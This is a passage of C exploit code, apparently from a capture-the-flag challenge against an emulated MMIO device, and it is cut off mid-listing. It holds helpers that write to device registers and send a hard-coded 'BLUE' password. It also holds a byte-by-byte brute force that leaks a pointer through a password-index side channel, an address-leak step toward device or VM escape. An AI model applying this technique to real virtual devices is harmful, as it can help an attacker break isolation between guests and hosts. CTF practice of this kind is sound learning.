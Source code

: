 ```

void ctf_process_reply(){
    mmio_write(0x18, 0);
}

void ctf_add_cmd_data(uint64_t val){
    mmio_write(0x1c, val);
}

void auth(){
    mmio_write(4, 'B');
    mmio_write(4, 'L');
    mmio_write(4, 'U');
    mmio_write(4, 'E');
}

void send_req(struct req_head *req){
    u_int64_t phys = virt2phys(req);
    mmio_write(0, phys >> 32);
    mmio_write(8, phys & 0xffffffff);
}

void set_pwd()
{
    mmio_write(0x4, 'B');
    mmio_write(0x4, 'L');
    mmio_write(0x4, 'U');
    mmio_write(0x4, 'E');
    for(int i = 0; i < 8; ++i){
        mmio_write(0x4, '\x00');
    }
    uint32_t pw_idx = mmio_read(0x14);
    //printf("pw_idx: %d\n", pw_idx);
}

void bruteforce_pointer()
{
    for(int t = 0; t < 6; t++){
        for(uint64_t v = 0; v < 256; v++){
            set_pwd();

            uint64_t tmp = pointer;
            for(int k = 1; k <= t; k++){
                char cur_chr = (tmp >> ((k-1)*8)) & 0xff;
                mmio_write(0x4, cur_chr);
            }
            
            mmio_write(0x4, v);
            uint32_t cur_idx = mmio_read(0x14);
            if(cur_idx == 0){
                continue;
            }
            else{
                // else we have the right value
                pointer = (pointer | (v << (t * 8)));
                // printf("%p\n", (void*)pointer);
                break;
            }               
        }
    }
}

void bruteforce_heap()
```